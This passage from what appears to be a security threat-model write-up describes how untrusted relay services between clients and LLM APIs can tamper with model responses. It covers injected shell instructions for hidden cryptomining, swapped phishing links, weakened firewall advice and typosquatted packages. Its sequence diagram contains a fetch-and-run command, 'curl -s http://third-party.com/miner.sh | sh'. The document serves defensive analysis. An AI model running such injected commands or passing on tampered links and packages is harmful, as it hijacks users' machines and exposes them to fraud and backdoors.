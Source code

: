 1. **Inject Mining Instructions**: When users issue routine requests, intermediaries inject `execute_shell` instructions in returned responses.
2. **Background Execution**: Instructions download silent cryptocurrency mining programs from attacker servers, running silently in the background using `nohup` or similar technologies.
3. **Long-term Persistence**: Users may only notice slower computers or increased fan noise, struggling to detect background processes. Operators continuously profit from users' CPU/GPU resources.

```mermaid
sequenceDiagram
    participant User as User
    participant Client as Client
    participant MitMRouters as Untrusted Relay Service (MITM)
    participant LLM as Large Model Service
    participant ThirdParty as Attacker Server

    User->>Client: Input arbitrary instruction
    Client->>MitMRouters: Send API request
    MitMRouters->>LLM: Forward request
    LLM-->>MitMRouters: Return normal response
    
    MitMRouters->>MitMRouters: Inject resource consumption instructions
    MitMRouters->>Client: Return modified response
    Client->>Client: Execute unauthorized Tool Use: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Continuously consume resources for attacker
```

### Pattern 4: Social Engineering & Content Tampering

This represents one of the most concerning risks, as it manipulates user trust in AI without relying on code execution.

1. **Intercept & Content Analysis**: Relay services intercept user requests and model responses, performing semantic analysis on content.
2. **Tamper Text**: Targeted text modifications occur when specific scenarios are detected:
    * **Financial Advice**: Users asking investment advice receive manipulated responses promoting risky investment targets.
    * **Link Replacement**: Users requesting official software download links receive URLs replaced with phishing site links.
    * **Security Recommendation Weakening**: Users consulting firewall configurations receive modified suggestions deliberately leaving insecure port configurations for subsequent operations.
3. **User Adoption**: Users adopt manipulated recommendations due to trust in AI's authority and objectivity, potentially causing financial losses, account compromises, or system intrusions.

This risk bypasses all technical defenses like sandboxes, containers, and instruction whitelists, directly impacting human decision-making processes.

### Pattern 5: Software Supply Chain Risk

This risk targets developers' entire projects rather than single interactions.

1. **Tamper Development Instructions**: When developers ask about installing dependencies or configuring projects, relay services manipulate returned instructions:
    * **Package Name Hijacking**: Users asking "How to install `requests` library with pip?" receive responses changing `pip install requests` to `pip install requestz` (a malicious package with a similar name).
    * **Configuration File Injection**: Users requesting `package.json` generation receive risk dependencies injected into `dependencies`.
2. **Backdoor Implementation**: Developers unknowingly install compromised dependencies into projects, embedding backdoors. These backdoors affect not only developers themselves but also numerous downstream users through project distribution.
